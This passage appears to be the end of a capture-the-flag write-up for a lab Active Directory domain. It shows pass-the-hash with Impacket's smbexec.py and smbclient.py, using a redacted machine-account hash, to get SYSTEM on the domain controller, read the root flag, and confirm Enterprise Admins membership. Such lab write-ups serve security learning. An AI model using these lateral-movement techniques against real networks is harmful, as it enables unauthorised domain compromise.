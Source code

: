 
```console
$ smbexec.py -hashes :e41d[REDACTED]5559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
27[REDACTED]6a
```

Alternatively, we could just retrieve the flag via SMB:

```console
$ smbclient.py -hashes :e41d[REDACTED]5559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'

# use C$
# cd Users/Administrator/Desktop
# ls
drw-rw-rw-          0  Fri Jul 25 17:51:20 2025 .
drw-rw-rw-          0  Fri Aug  1 19:40:46 2025 ..
drw-rw-rw-          0  Mon Jun 17 17:41:17 2024 backup
-rw-rw-rw-        282  Sat Jun 15 17:54:32 2024 desktop.ini
-rw-rw-rw-         33  Fri Jul 25 17:51:20 2025 root.txt
```

Lastly, a quick check of the `FileServer$` account’s group memberships shows it belongs to the **Enterprise Admins** group, explaining our administrative access.

```console
C:\Windows\system32>powershell -c (Get-ADComputer "FileServer$" -Properties MemberOf).MemberOf
CN=Enterprise Admins,CN=Users,DC=SOUPEDECODE,DC=LOCAL
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
